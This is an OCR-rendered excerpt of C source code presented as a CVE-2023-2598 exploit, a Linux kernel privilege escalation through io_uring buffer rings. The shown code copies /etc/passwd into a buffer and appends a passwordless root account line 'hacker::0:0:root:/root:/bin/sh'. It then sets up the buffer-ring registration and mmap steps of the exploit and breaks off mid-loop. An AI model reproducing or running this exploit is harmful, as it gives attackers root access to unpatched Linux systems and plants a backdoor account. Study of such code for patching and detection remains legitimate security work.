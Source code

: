 ```
    RED;puts(&#34;[*] CVE-2023-2598 Exploit by mowen&#34;);CLOSE;

    stat(&#34;/etc/passwd&#34;,&status);
    passwd_size=status.st_size;
    logi(&#34;passwd_size -> %d&#34;,passwd_size);

    hacker_buf =(char*) malloc(passwd_size*2);
    passwd_fd = open(&#34;/etc/passwd&#34;,O_RDONLY);
    read(passwd_fd,hacker_buf,passwd_size);
    strcat(hacker_buf,&#34;hacker::0:0:root:/root:/bin/sh\n&#34;);
    hacker_len =strlen(hacker_buf);

    bind_cpu(0);
// 1、解除当前进程限制
    prep_rlimit(&nr_files);
// 2、初始化 io_uring
    check_ret(io_uring_queue_init(32,&ring,0),&#34;io_uring_queue_init fail&#34;);
    bufs = calloc(nr_bufs,sizeof(*bufs));
    fds = malloc(nr_files*(sizeof(int)));    
    /**
     * nr_pages: 有多少页，构造页数
     * entries = nr_pages*(PAGE_SIZE/sizeof(struct io_uring_buf))
     * mmap_size = entries*sizeof(struct io_uring_buf);
     */
    entries = MAX_ring_entries/2;
    if(entries>MAX_ring_entries){
        die(&#34;entries too large&#34;);
    }
    nr_pages = entries/256;
    logi(&#34;nr_pages -> %d entries -> %d&#34;,nr_pages,entries);
// 3、注册 IOU_PBUF_RING_MMAP  
    logu(&#34;register buf ring <- IOU_PBUF_RING_MMAP&#34;);

    for (size_t i = 0; i < nr_bufs; i++)
    {
        memset(&reg,0,sizeof(reg));
        reg.bgid=i;
        reg.flags=IOU_PBUF_RING_MMAP;
        reg.ring_entries=entries;
        ret=io_uring_register_buf_ring(&ring,&reg,0);
        if(ret < 0){
            die(&#34;io_uring_register_buf_ring fail [%d]&#34;,i);
        }
        mmap_size = reg.ring_entries*sizeof(struct io_uring_buf);
        mmap_off = IORING_OFF_PBUF_RING | (unsignedlonglong) i << IORING_OFF_PBUF_SHIFT;
        bufs[i] = mmap(
            NULL,
            mmap_size,
            PROT_READ|PROT_WRITE,
            MAP_SHARED,
            ring.ring_fd,
            mmap_off
        );
        if(bufs[i]==MAP_FAILED){
            die(&#34;mmap fail&#34;);
        }
        io_uring_buf_ring_init(bufs[i]);
        // logu(&#34;br[%d] -> %p&#34;,i,br[i]);
    }
    logu(&#34;unregister buf ring&#34;);
    for (size_t i = 0; i < nr_bufs; i++)
    {
        io_uring_unregister_buf_ring(&ring, i);
```